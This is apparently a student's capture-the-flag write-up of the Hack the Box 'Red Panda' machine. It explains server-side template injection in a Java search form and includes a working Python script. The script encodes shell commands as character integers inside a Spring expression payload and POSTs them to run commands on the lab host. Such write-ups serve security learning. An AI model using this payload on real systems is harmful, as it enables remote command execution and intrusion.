 ```yaml
---
layout: single
title: Hack the Box - Red Panda
---
```


## SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice. Because I do not have 
much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda

![Redpanda main page](/assets/img/redpanda/redpanda.png)

The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:

![Greg panda](/assets/img/redpanda/greg.png)

I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose 
my payload with - _*{ malicious code }_. I tried getting all environment variables from the host.

![Server's environment variables](/assets/img/redpanda/get_env.png)

I tried testing multiple payloads from *[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)*,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests
from bs4 import BeautifulSoup as bs
# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"
mid = ""
command = sys.argv[1]
for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"
payload = first + mid + last
# send post request to /search
ip = "10.10.11.170"
endpoint = "search"
res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )
soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})
print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.

![User flag](/assets/img/redpanda/user.png)

